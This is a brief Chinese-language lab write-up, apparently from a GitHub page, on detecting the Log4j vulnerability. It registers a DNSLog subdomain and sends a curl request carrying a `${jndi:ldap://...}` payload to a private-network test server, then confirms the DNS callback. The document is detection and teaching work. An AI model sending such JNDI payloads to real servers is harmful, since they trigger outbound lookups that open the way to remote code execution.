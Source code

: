 
---

### 三. 漏洞利用检测

#### [方法一] 使用域名服务器
1. **注册临时域名**
   - 使用 `http://log.fendou.us:8080/dns/` 网站注册了一个临时域名 `chloris.check4safe.top`。
   - 注册结果在网站上显示，确认域名已成功创建。
   ![1741158922380](image/record/1741158922380.png)

2. **使用域名服务器抓包并进行流量分析**
  - 使用 `curl` 命令模拟攻击请求，测试 Log4j 漏洞：
    ```bash
    curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
    ```
  - 通过 `-vv` 参数查看详细的请求和响应信息，确保请求被正确发送并返回预期的结果。
- **抓包结果**：
  - 日志显示请求包含恶意 payload `${jndi:ldap://chloris.check4safe.top}` 请求被成功发送到目标服务器，并且返回了 HTTP/1.1 200 OK 的响应。
  ![1741160078861](image/record/1741160078861.png)

3. **检测结果**
  - 在 `log.fendou.us` 网站的 DNSLog 页面中，可以看到注册的子域名 `chloris.check4safe.top` 的查询记录。
